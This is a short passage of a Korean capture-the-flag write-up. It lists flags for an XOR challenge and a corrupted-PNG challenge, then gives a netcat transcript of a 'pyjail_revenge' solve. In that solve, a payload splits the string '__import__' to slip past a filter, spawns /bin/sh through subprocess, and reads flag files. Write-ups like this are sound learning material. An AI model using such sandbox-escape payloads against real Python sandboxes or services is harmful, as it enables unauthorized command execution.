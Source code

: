 `A0V3R{yes_this_is_basic_xor_prob}`

## PPNG

height를 `0x200`으로 바꾸고 https://online.officerecovery.com/pixrecovery 온라인 툴에 넣고 돌렸다.

![](./ppng.png)

`A0V3R{Funny!!_M1SC_CS1M!!!}`

## pyjail_revenge
```
 junhoyeo@juno-4  ~/Downloads/Kawai_SuzukazeAoba  nc 45.32.254.239 7778
Last pyjail was too ez, isn't it?
So I will give you one more question.
It'll be quite tricky.
Give it a try!
 > __builtins__.__dict__['__im''port__']('subprocess').call(['/bin/sh','-s'])
cat home/flag
cat: home/flag: No such file or directory
cd home
cat pyjail2/flag
A0V3R{na.hwa.nat.da}
cat main.py
```
